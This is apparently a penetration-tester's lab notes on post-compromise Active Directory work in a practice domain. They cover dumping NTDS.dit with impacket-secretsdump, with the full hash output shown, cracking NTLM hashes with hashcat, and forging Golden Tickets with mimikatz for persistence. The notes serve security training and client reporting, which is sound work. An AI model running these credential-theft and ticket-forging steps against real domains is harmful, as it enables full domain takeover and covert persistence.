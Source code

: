 ## We own the domain now what?  
In the event we manage to compromise Domain and there is still time in the engagement, we will continue to provide as much value to the client as possible.  

1. Dump NTDS.dit and crack passwords.
2. Enumerate further shares for sensitive information such as PII data and other findings so that this can be reported.
3. Create persistence in the event our main access is lost and also remember to remove rouge Domain Admin accounts.
4. Test for detections espicially for DA account creations. A good environment should detect these account creations.
5. Creating a Golden Ticket.

---

## 🚩 Dumping the NTDS.dit

### What is NTDS.dit?  
An extremely critical and highly sensitive database used to store AD data within Active Directory / Domain Controllers:
* user information
* gorup information
* security dscriptors
* password hashes

Using a **known domain admin account** we could use secretsdump and its switch of **-just-dc-ntlm** to dump out the DCs NTDS file. A successful Domain dump will contain a range of information from: SAM, credentials, domains, krbtgt, hashes, local account users, pc logins, and other accounts that may of been created from ipv6 / relayx + mitm6 relay attack.  

example:

    impacket-secretsdump / secretsdump 'impacket-secretsdump MARVEL.local/pparker:'Password1'@192.168.64.139 -just-dc-ntlm

using our malicious domain admin account hawkeye against the DC, we succesfully dump the local SAM and more importantly NTDS.dit file. From the dump we also see 'kerberos keys' and also the krbtgt which could be later leveraged in a kerberos ticket attack.

    impacket-secretsdump MARVEL.local/hawkeye:'Password1@'@192.168.64.138

![image](https://github.com/user-attachments/assets/dfe18c4b-7172-4012-8155-1c74bbd42f97)

Using -just-dc-ntlm with secretsdump will only dump out the NTDS.dit, filtering out the other data as the name implies.  

    root@kali:/home/kali# impacket-secretsdump MARVEL.local/hawkeye:'Password1@'@192.168.64.138 -just-dc-ntlm
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:2617733570dcba888a76e40359f8a359:::
    MARVEL.local\tstark:1103:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
    MARVEL.local\SQLService:1104:aad3b435b51404eeaad3b435b51404ee:f4ab68f27303bcb4024650d8fc5f973a:::
    MARVEL.local\fcastle:1105:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
    MARVEL.local\pparker:1106:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
    avrrDOsNBw:1109:aad3b435b51404eeaad3b435b51404ee:253a38577fe79301cf439d788dfa3850:::
    hawkeye:1110:aad3b435b51404eeaad3b435b51404ee:43460d636f269c709b20049cee36ae7a:::
    HYDRA-DC$:1000:aad3b435b51404eeaad3b435b51404ee:86757f6579150e5ef1901687a33b627b:::
    THEPUNISHER$:1107:aad3b435b51404eeaad3b435b51404ee:2338c61f1a4137c16acab764b8fe5022:::
    SPIDERMAN$:1108:aad3b435b51404eeaad3b435b51404ee:1d86510b8589eccf45424b657db6ab52:::
    [*] Cleaning up... 
    root@kali:/home/kali# 

Now that we have the NTLM hashes dumped out from the NTDS.dit, we should filter out the NT portions of the hashes in excel, place it in a .txt file and have it cracked with -m of 1000 (given they are just ntlm) using hashcat. With all the cracked passwords, we can place them back into excel to see the passwords to accounts and also for final reporting.  

![image](https://github.com/user-attachments/assets/bd6014ac-0ea6-472c-b1fb-27290f32b313)

    hashcat -m 1000 ntds111.txt 
    once finished
    hashcat -m 1000 ntds111.txt --show

![image](https://github.com/user-attachments/assets/8b8b4bfb-821c-449f-9edc-f909ce359101)

We can now apply the cracked passwords back to the excel and match the cracked passwords with the hashes through using =vlookup magic or bash script.   

### Note:  
ignore PC passwords, they are typically not going to be cracked and have low value in this scenario.

---

## 🚩 Golden Ticket Attacks  

### What is Golden Ticket Attacks?  
* when we compromise the krbtgt (kerboros ticket granting ticket) we essentially own the domains.
* we can request access to any resource or system on the domain.
* golden tickets == complete access to every machine.

### Why exploit Golden Tickets even when we own the Domain?
* laterally move into accounts that we may not be able to access using forged tickets.
* authenticate into accoutns without needing a password.
* if our domain account is removed, we can still gain access with a Golden Ticket creation, maintaining persistance.

**Using mimikatz.exe to generate Golden Tickets.** 
1. priv debug
2. lsadump for krbtgt account: to obtain sid, krbtgt ntlm hash
3. with the krbtgt hash we can use it to generate a Golden Ticket
4. use Golden Ticket to 'Pass the Ticket' to now access any machine within the domain
5. Golden Ticket can launch tools at machines or users in the same network without username / passwords - Gticket bypasses this requirement
6. when in any account, we could enumerate files and even spawn new shells



